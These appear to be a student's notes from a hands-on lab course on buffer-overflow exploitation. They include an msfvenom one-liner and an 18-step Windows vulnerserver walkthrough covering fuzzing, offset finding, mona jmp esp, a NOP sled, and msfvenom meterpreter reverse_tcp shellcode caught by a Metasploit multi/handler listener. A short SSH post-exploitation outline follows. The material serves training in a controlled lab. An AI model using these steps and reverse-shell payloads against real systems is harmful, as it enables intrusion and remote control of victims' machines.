     (if it doesnt work, regenerate shell code, change EIP, check print statement, make sure you're just using 'python' , on target machine -> put this in /tmp)

    **MSFvenom one liner** 'msfvenom -p linux/x86/exec CMD="whoami && ifconfig" -b '\x00' -f python

    SCP through a tunnel syntax 
    scp -P 1111 lin_buf1.py comrade@127.0.0.1:/home/comrade
    
    
## Windows Buffer Overflow
https://z3r0th.medium.com/a-simple-buffer-overflow-using-vulnserver-86b011eb673b

    1. attempt to run malware
    2. nmap -Pn -sT -T5 --script=banner 10.50.34.195 (from linops to see what ports opened on winops)
    3. 9999 was open, so we used nc '10.50.34.195 9999'
    4. made win_buf.py script to interact w/ ip and port 9999
    5. go back to winops, open immunity -> file -> attach -> attach the .exe, just pay attention to the cpu thread window here.
    6. click the play button in the top left -> send your script again.
    7. find out how many bytes we have to send to overwrite it -> modify buf in script to vulnerable command, add 'buf += "A" * 100', keep modifying the 100 value until it breaks.
    8. once broken, go into wiremask and copy the value you used into length. -> then copy and paste the pattern into your script in the buf += part.
    9. run the script with the new buf, copy and paste the EIP as the register value in wiremask to find the offset.
    10. go back into your script. delete the pattern you put in buf +=, and add the offset value you got from wiremask.
    11. add another buf += "B" * 4 -> sen script, check new EIP to see if it worked.
    12. if its broken, rewind and hit play again. type !mona modules at the bottom. -> then run !mona jmp -r esp -m "essfunc.dll" -> click l at the top if it goes away.
    13. go down to where you see your command, copy and paste the address of the first result. -> add that jmp esp to your exploit (you're replacing the "B" with this in little endian)
    14. then below that line, add buf += "\x90" * 15
    15. then on linops -> msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.36.204 lport=10000 -b "\x00" -f python (the lhost is linops ip)
    16. The command above generates shellcode, do not take the first line.
    17. go back into msfconsole -> use multi/handler -> show options -> set payload windows/meterpreter/reverse_tcp -> set LHOST 0.0.0.0 -> set LPORT 10000 (change the LPORT to whatever you used in msfvenom)
    18. ensure the malware is running on winops -> type 'exploit' on msfconsole -> then run your script in another window 'python win_buf.py) -> this should give you a shell on the victim device. -> type help to look for commands.
    
    
    
## Post Exploitation
https://sec.cybbh.io/public/security/latest/lessons/lesson-8-post_sg.html

     **SSH Overview**
        Access remote systems using an SSH server as a proxy
        Securely transfer files
        Execute commands on a remote system
        VPN using the SSH protocol as a transport
        Forwarding the X Window System display to the client system
